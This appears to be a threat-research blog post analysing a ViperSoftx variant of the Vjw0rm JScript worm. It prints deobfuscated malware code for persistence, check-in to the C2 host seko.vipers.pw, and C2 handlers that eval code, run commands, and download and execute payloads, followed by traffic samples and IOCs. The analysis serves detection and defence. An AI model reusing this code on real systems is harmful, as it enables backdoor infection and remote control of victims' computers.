 ```yaml
---
weight: 4
title: "ViperSoftx Vjw0rm Variant"
date: 2020-02-10
draft: false
author: "c3rb3ru5d3d53c"
description: "Another interesting analysis of a Vjw0rm variant."
images: []
tags: ["Vjw0rm", "Worm"]
categories: ["Malware"]
lightgallery: true
---
```


## Situation:

While watching [Any.Run](https://any.run) for interesting scripts to deobfuscate, I noted that its traffic did appear to be like other variants of `vjw0rm` however wasn't sure of what else it could do.

## Metadata:

- Sample: `3236312b9dc691dd8b9214f08ff01e5d`

## Analysis

The obfuscation techniques are pretty standard, the first stage deobfuscates base64 data then performs mathematic operations on it (I don't give a crap how they work I just let it do the heavy lifting for me), interestingly the base64 string is reversed.

After this then the obfuscation consistently used `eval` which is easily replaced with `console.log` and ran using `nodejs` to dump the next stages.

It took approximatly twenty different times dumping the obfuscated code before I was able to access the deobfuscated code.


The script starts with setting up some global variables the script needs to run then makes a call to `ModinySks()`, this function is responsible to establishing persistence.

```js
var shell = new ActiveXObject('WScript.Shell');
var fstym = new ActiveXObject('Scripting.FileSystemObject');
var spl = '|V|';
var Ch = '\\';
var verss = 'viperSoftx_1.0.7.6';
var VN = verss + '_' + getSerial();
var Startup = getEnv('appdata') + '\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\';
var StartupAll = getEnv('allusersprofile') + '\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\';
var Temp = getEnv('temp') + '\\';
var Desktop = getEnv('userProfile') + '\\Desktop\\';
var AppData = getEnv('appdata') + '\\';
var fxDmE4zu = WScript.ScriptFullName;
var wn = WScript.ScriptName;
var UDex;
var DeLay = 20;
var ps = 'powershell.exe';
var batf = AppData + wn + '.bat';
var vbsf = AppData + wn + '.vbs';
var lnkf = Startup + wn + '.lnk';
ModinySks();
```

We can see that `powershell.exe` is used to copy, the backdoor script to the `%AppData%` folder then establishing persistence in the startup folder as a `LNK` file.

```js
function ModinySks() {
	try {
		shell.Run(ps + " Copy-Item -Path '" + fxDmE4zu + "' -Destination '" + AppData + wn + "'", 0, false);
		var newpato = 'start wscript.exe /E:jscript """' + AppData + wn + '"""';
		CreateFile(vbsf, 'Set WshShell = WScript.CreateObject("""WScript.Shell""")' + '\n' + 'obj = WshShell.Run("""wscript.exe /E:jscript """"""' + AppData + wn + '""""""""", 0)' + '\n' + 'set WshShell = Nothing');
		createShort(lnkf, vbsf);
	} catch (err) {
	}
}
```

After persistence is achieved, it will checkin to the C2 server `seko[.]vipers[.]pw:8880`, send fingerprinting data in the `User-Agent`.

Interestingly, this variant adds the `X-Header` HTTP header with the variant prefix / version as well.

```js
function SendHttp(R) {
	var X = new ActiveXObject('Microsoft.XMLHTTP');
	X.open('put', 'http://seko.vipers.pw:8880/connect', false);
	var useragent = getUserAgent();
	X.SetRequestHeader('User-Agent:', useragent);
	X.SetRequestHeader('X-Header:', VN);
	X.send(R);
	return X.responsetext;
}
```

The C2 server response body will be parsed by use of the delimiter `|V|` much like previous variants.

```js
var send = SendHttp();
var Command = send.split(spl);
var order = Command[0];
var order_data = Command[1];
```

### C2 Command (Ex):

Code:
```js
if (order === 'Ex') {
	eval(order_data);
}
```
Command from C2: `Ex|V|<jscript_code>`

### C2 Command (Cmd):

Code:
```js
if (order === 'Cmd') {
	shell.Run(order_data, 0, false);
}
```

Command from C2: `Cmd|V|whoami`

### C2 Command (DwnlExe):

Code:
```js
if (order === 'DwnlExe') {
	var path = Temp + Command[2];
	DownFile(Command[1], path, true);
	WScript.Sleep(DeLay * 1000);
	shell.Run("cmd.exe start '" + path + "'", 0, false);
}
```

Command from C2: `DwnlExe|V|<url>|V|<path>`

### C2 Command (DwnlOnly):

Code:
```js
if (order === 'DwnlOnly') {
	varpathdwn = '';
	var path = Command[3];
	var exe = Command[4];
	if (path == 'startup') {
		pathdwn = Startup + Command[2];
	} else if (path == 'temp') {
		pathdwn = Temp + Command[2];
	} else if (path == 'desktop') {
		pathdwn = Desktop + Command[2];
	} else {
		pathdwn = path + Command[2];
	}
	if (pathdwn != '') {
		if (exe == 'yes') {
			DownFile(Command[1], pathdwn, true);
			WScript.Sleep(DeLay * 1000);
			shell.Run(ps + " start '" + pathdwn + "'", 0, false);
		} else {
			DownFile(Command[1], pathdwn, false);
		}
	}
}
```

### C2 Command (SelfRemove):

Code:
```js
if (order === 'SelfRemove') {
	UnMonkSek(true);
}
```

### C2 Comamnd (UpdateS):

```js
if (order === 'UpdateS') {
	var path = Temp + Command[2];
	DownFile(Command[1], path, true);
	if (fstym.fileexists(path)) {
		UnMonkSek(false);
		WScript.Sleep(DeLay * 1000);
		shell.Run(ps + " start wscript.exe /E:jscript '" + path + "'", 0, false);
		WScript.Quit(1);
	}
}
```

Command from C2: `UpdateS|V|<url>|V|<tmp_file_name>`

### C2 Checkin Traffic:

```http
PUT /connect HTTP/1.1
Accept: */*
Accept-Language: en-us
User-Agent: viperSoftx_1.0.7.6_C4BA3647\USER-PC\Admin\Microsoft Windows 7 Professional [32]\\YES\undefined\
x-header: viperSoftx_1.0.7.6_C4BA3647
Accept-Encoding: gzip, deflate
Host: seko.vipers.pw:8880
Content-Length: 0
Connection: Keep-Alive
Cache-Control: no-cache
```

If you look closely the difference are the use of the `PUT` HTTP method and the use of the `x-header`.

This is easy enough to create detection for.

## IOCS:

```txt
3236312b9dc691dd8b9214f08ff01e5d
seko.vipers.pw
```

## References:
- [Deobfuscated Samples](/samples/2020-02-10-vipersoftx.zip)
- [Any.Run](https://app.any.run/tasks/e97fabaa-96ca-4377-b0ee-2344d1c11291/)
- [VirusTotal](https://www.virustotal.com/gui/file/ad5e9d005b764ba80b93c31bec1814ee43ac13143ca67d795a05ae7dbe9cf72f/detection)

